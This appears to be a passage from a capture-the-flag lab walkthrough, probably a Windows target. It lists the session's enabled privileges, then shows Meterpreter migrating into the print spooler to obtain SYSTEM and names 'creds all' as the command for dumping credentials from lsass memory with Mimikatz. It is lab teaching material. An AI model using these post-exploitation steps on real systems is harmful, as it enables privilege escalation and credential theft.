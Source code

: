 Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

## Task 5 Looting
---
Q: In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?

Mentioned within this question is the term 'living in' a process. Often when we take over a running program we ultimately load another shared library into the program (a dll) which includes our malicious code. From this, we can spawn a new thread that hosts our shell. 

A: spoolsv.exe

Q: Let's check what user we are now with the command `getuid`. What user is listed?

A: NT AUTHORITY\SYSTEM

```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 1120 to 1368...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Q: Which command allows up to retrieve all credentials?

A: creds all

Q: Run this command now. What is Dark's password? Mimikatz allows us to steal this password out of memory even without the user 'Dark' logged in as there is a scheduled task that runs the Icecast as the user 'Dark'. It also helps that Windows Defender isn't running on the box ;) (Take a look again at the ps list, this box isn't in the best shape with both the firewall and defender disabled)

```